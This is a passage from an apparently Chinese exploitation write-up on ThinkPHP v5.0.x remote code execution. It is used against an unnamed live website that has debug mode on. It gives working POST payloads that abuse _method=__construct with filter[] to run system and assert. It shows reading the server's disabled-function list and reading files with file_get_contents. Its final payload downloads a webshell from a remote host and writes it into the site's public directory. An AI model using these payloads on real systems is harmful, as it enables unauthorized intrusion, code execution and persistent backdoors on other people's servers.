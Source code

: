上文已分析过，$this->input() 第一个参数，即使回调函数的参数，因此 $this->server 将是我们想要执行方法的参数，此处我们执行的 think\__include_file 方法，因此我们要改变 $this->server 的值，由于 $server 为 Request 类的属性，根据上文变量覆盖利用，我们利用变量覆盖使得 $_SERVER[REQUEST_METHOD] 为参数，这样就能利用 include 进行任意文件包含。

>>>>

实际利用

发现某站部署 Thinkphp v5 系统，并且在系统配置中是默认配置的 debug 模式：

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5iby1CibzqOJb7UaSicQYJE8UeGE0OqxCSBWuhVLqIIR6VibAGhNiaPu4L5txtic7QtzibTnqav5D9icnvcA/640?wx_fmt=png)

在 debug 状态下，我们知道网站的绝对路径，并且 ThinkPHP 版本号为 V5.0.x，由于开启 debug 状态，构造相应 payload 进行探测

```
POST:_method=__construct&filter[]=system&get[]=whoami
```

发现 php 配置文件中应该设置了 disabled_function:

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5iby1CibzqOJb7UaSicQYJE8UWYTQIibibdQAmTcprX0fZ05NvmfTeORzSpChuY8QuaicGb0JicraIuoDBQ/640?wx_fmt=png)

我们知道在 phpinfo() 中即使加入参数，也不影响其执行，因此 call_user_func('phpinfo()','1') 同样能够执行

先看一波 phpinfo 看看禁用哪些函数, 发现还设置了 open_basedir

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5iby1CibzqOJb7UaSicQYJE8UicYte4c7PdWBYea6iaFGLDPAO0hAHNicUPTH1vroc3bAX6WfXppokokow/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5iby1CibzqOJb7UaSicQYJE8UnYBeTg2rO35sDFBjoGXzFjQIb76CQHnNmnunz6GE1dT9lKu0WgsM0g/640?wx_fmt=png)

```
passthru,exec,system,chroot,chgrp,chown,shell_exec,popen,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru
```

把最为常用的函数禁用了，当该 PHP 版本低于 7.2, 因此 assert 这个关键的函数并没有过滤，也就意味着我们能先使用 assert 来做一些操作，本来是直接构造

```
POST:_method=__construct&filter[]=assert&get[]=assert($_POST[1]);
```

然后用 antsword 连上就好，但是发现并不能成功连接，原因可能是 antsword 和菜刀仅支持 eval 后门，可能现在就需要换一换思路:

在默认配置中，file_get_contents 可以读取 URL 内容并进行输出，并且 file_get_contents 是不会被 ban 的，这里先验证一下:

```
POST:_method=__construct&filter[]=assert&get[]=assert($_POST[1]);&1=print(file_get_contents("./index.php"));
```

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5iby1CibzqOJb7UaSicQYJE8UBVO1dTibKCiazpyH8LVIO77zS9NBwwYgnBfaQn0cKhfpncNz31icILAPg/640?wx_fmt=png)

因此直接结合网站绝对路径，我们知道在 public 是面向用户的，我们可以利用 file_get_contents 读取马后使用 file_put_contents 写入到 public 目录下，这样就能够一句话进行连接

```
_method=__construct&filter[]=assert&get[]=$a=(file_get_contents("http://马的地址"));$b=file_put_contents('网站根目录/public/xxx.php',$a);
```
